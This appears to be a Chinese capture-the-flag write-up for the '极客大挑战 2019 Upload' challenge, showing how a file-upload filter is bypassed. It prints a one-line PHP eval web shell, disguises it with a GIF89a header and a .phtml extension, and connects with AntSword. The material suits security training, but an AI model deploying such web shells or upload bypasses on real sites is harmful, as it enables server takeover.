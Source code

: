 ## [极客大挑战 2019]Upload

传入一个包含一句话代码的png文件：

![image-20240603163647382](https://gitee.com/bx33661/image/raw/master/path/image-20240603163647382.png)

所以我们换一个一句话代码

```php
<script language="php">@eval($_POST[sb])</script>
```

![image-20240603171545630](https://gitee.com/bx33661/image/raw/master/path/image-20240603171545630.png)

发现我们穿上去的png和jpg文件都不行

查阅资料后发现图片需要一个图片头

==GIF89a？==

我们填上，并且改后缀名为phtml

![image-20240603171325544](https://gitee.com/bx33661/image/raw/master/path/image-20240603171325544.png)

利用中国蚁剑来连接，查找flag

![image-20240603172054880](https://gitee.com/bx33661/image/raw/master/path/image-20240603172054880.png)

---

## 总结：

- 修改文件名后缀
- 对于一些比较严格的审查，需要添加图片头
- php，phtml，php5